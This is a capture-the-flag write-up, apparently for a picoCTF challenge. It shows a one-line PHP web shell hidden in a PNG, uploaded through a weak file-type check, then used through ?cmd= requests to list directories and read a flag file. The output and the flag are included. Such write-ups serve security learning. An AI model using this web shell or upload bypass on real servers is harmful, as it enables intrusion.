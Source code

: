 # Description: #
Description
I found a web app that can help process images: PNG images only!

# Solution #
Based on the description, I knew that it would be a file upload vulnerability, png file to be specific.

My payload:
```php
<?php system($_GET['cmd']); ?>
```
I inject it to a png file named blue.png I downloaded online and renamed it to [blue.png.php](blue.png.php)

Upload result:

![img](1.png)

However, I did't know where was the file stored, so I tried visiting robots.txt for more information.

robots.txt:
```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```
So the file was likely stored in /uploads/blue.png.php.

/uploads/blue.png.php
```
�PNG  IHDR��
Warning: Undefined array key "cmd" in /var/www/html/uploads/blue.png.php on line 5

Fatal error: Uncaught ValueError: system(): Argument #1 ($command) cannot be empty in /var/www/html/uploads/blue.png.php:5 Stack trace: #0 /var/www/html/uploads/blue.png.php(5): system('') #1 {main} thrown in /var/www/html/uploads/blue.png.php on line 5
```
/uploads/blue.png.php?cmd=ls -a:
```
�PNG  IHDR�� . .. blue.png.php ; m"HPLTE���'�W�HIDATx����à�S_�U� ƢW[�IEND�B`�
```

/uploads/blue.png.php?cmd=ls -a ..
```
�PNG  IHDR�� . .. G4ZTCOJYMJSDS.txt index.php instructions.txt robots.txt uploads ; m"HPLTE���'�W�HIDATx����à�S_�U� ƢW[�IEND�B`�
```

/uploads/blue.png.php?cmd=cat ../G4ZTCOJYMJSDS.txt
```
�PNG  IHDR�� /* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9} */; m"HPLTE���'�W�HIDATx����à�S_�U� ƢW[�IEND�B`�
```

Flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_73198bd9}
